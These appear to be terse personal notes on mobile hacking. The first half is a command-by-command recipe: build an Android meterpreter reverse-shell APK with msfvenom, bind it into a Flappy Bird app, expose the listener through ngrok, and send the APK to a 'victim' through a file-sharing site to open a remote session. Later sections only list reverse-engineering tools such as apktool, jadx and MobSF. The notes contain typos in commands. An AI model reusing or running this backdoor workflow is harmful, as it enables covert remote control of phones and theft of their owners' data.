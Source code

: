 # Mobile hacking

### Gaining Access with Android meterpreter

- msfvenom -p android/meterpreter/reverse_tcp LHOST=(KALI IP) LPORT
  =5555 -o shell.apk
- sudo service apache2 start
- mv shell.apk /var/www/html
- msfconsole
- use exploit/multi/handler
- set payload android/meterpreter/reverse_tcp
- set LHOST (IP)
- set LPORT 5555
- run

### Evil Droid

- download evil droid github
- chmod +x evil-droid
- sudo ./evil-droid

### Flappy Bird Malware

- fsvenom -x flappy-bird.apk -p android/meterpreter/reverse_tcp LHOST=(KALIIP) LPORT=5555 -o test.apk
  (-sudo apt-get remove apktool
- go to apktool official website
- nano apktool (paste there)
- follow the page's instructions)

### Hack any device on any network with ngrok

- google ngrok

### mobile backdoors

- very hard to install backdoor in ios
- payload -> msfvenom -> msfvenom -p android/meterpreter/reverse_tcp LHOST=(kali ip) LPORT=4444
- tunnel service
- ngrok -> to connect local ip to the internet
- register to ngrok
- setup for linux

- apk process
- ./ngrok tcp 4242
- copy forwarding link
- msfvenom -p android/meterpreter/reverse_tcp LHOST=(0.tcp.ngrok.io) LPORT=4444
- R > /root/ngroktest.apk
- listening for connection
- service postgressql start
- msfconsole
- use exploit/multi/handler
- set payload android/meterpreter/reverse_tcp
- show options
- set LHOST 0.0.0.0
- set LPORT 4242
- show options
- exploit -j -z
- use files.com to send the apk to victim (target user)

- signing process
- follow command

- hacking phone
- install the app
- a session will open -> hit enter
- sessions -1
- sysinfo
- help

### android app development (java/kotlin)

### ios app development (objective c/swift)

### rooting and jailbreaking

### reverse engineering - android

- apktool and jadx
- apt-get install apktool
- apt-get install jadx

### creating apk

- use android studio

### dalvik bytecode

- apktool (apk path)

### app manipulation

- read dalvik cheatsheet to modify
- rebuild the apk
- apktool --help
- apktool b (path) -o apkname.apk

### jadx usage

- jadx -d appdebug (app-debug.apk)
- get the exact java file

### proguard

- used to protect app's code
- to decompile proguarded app
- jadx -d (file) (apk) --deobf

### reverse engineering ios

- jailbreak, assembly, hexadecimal, cycript
- jailbreak detection

### cloud hacking firebase

- apktool
- network sniffing (charles proxy)

### in network attacks

- mitm, usb wifi card, bettercap, arp attack, http attack

### mobile security framework

- MobSF

### mobile api security

- Drozer
- Needle

### api pentesting
